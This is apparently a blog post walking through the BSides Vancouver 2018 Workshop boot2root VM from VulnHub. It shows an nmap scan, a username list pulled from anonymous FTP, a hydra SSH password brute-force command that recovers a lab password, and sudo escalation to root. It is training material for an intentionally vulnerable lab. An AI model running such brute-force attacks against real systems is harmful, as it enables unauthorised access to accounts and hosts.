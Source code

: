 ```yaml
---
layout: post
date: 2018-06-22 06:52:37 +0000
last_modified_at: 2018-06-22 13:46:01 +0000
title: "BSides Vancouver: 2018 (Workshop) Walkthrough"
category: Walkthrough
tag: [VulnHub, "BSides Vancouver"]
comments: true
image:
  feature: bsides-vancouver-2018-workshop-walkthrough.jpg
  credit: geralt / Pixabay
  creditlink: https://pixabay.com/en/workshop-board-hand-leave-teamwork-746539/
---
```


This post documents the easiest walkthrough of BSides Vancouver: 2018 (Workshop), a boot2root [VM][1] created by [abatchy][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

This VM aims to create a safe environment to perform real-world penetration testing on an intentionally vulnerable target. As the name implied, the VM appeared as course material in a workshop during 2018 BSides Vancouver.

### Information Gathering

Let's start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Mar 03 17:52 public
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.30.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 2.3.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 85:9f:8b:58:44:97:33:98:ee:98:b0:c1:85:60:3c:41 (DSA)
|   2048 cf:1a:04:e1:7b:a3:cd:2b:d1:af:7d:b3:30:e0:a0:9d (RSA)
|_  256 97:e5:28:7a:31:4d:0a:89:b2:b0:25:81:d5:36:63:4c (ECDSA)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.22 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry
|_/backup_wordpress
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

`nmap` finds `21/tcp`, `22/tcp`, and `80/tcp` open. None of the services are vulnerable to any remote code execution attacks right off the bat. Let's explore the `ftp` service next since anonymous login is allowed.

### FTP Service

There's a file `users.txt.bk` in the `public` directory — it contains usernames.

```
# cat users.txt.bk
abatchy
john
mai
anne
doomguy
```
### SSH Service

If I've to guess, these are probably users with an account in the target. Let's find out.

![SSH Login](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.jlutahztgc.png)

As you can see, `anne` is the sole account that can login via SSH with a password. This calls for a brute-force attack.

### Hail Hydra

For online brute-force attacks, I like to use `hydra` and the **rockyou** wordlist. Here's the command.

```
# hydra -l anne -P /usr/share/wordlists/rockyou.txt -f -e nsr -o hydra.txt -t 4 ssh://192.168.30.129
[22][ssh] host: 192.168.30.129   login: anne   password: princess
```

### SSH Access

This is way too easy.

![SSH Access](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.dovkhr1yz8s.png)

### Privilege Escalation

Guess what — `anne` is able to `sudo` as `root`.

![sudo](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.6pu5qdr84a.png)

### Eyes on the Prize

I got my eyes on the prize.

![flag.txt](/assets/images/posts/bsides-vancouver-2018-workshop-walkthrough/0.m2ls023yfbf.png)

### Afterthought

Admittedly, this VM is not too difficult since it's targeting delegates attending the workshop. That's also the reason why there are other ways to gain remote access and `root`ing the VM since the instructor would need to cover other attack surfaces like WordPress and/or kernel exploit.

[1]: https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/
[2]: https://twitter.com/@abatchy17
[3]: https://www.vulnhub.com
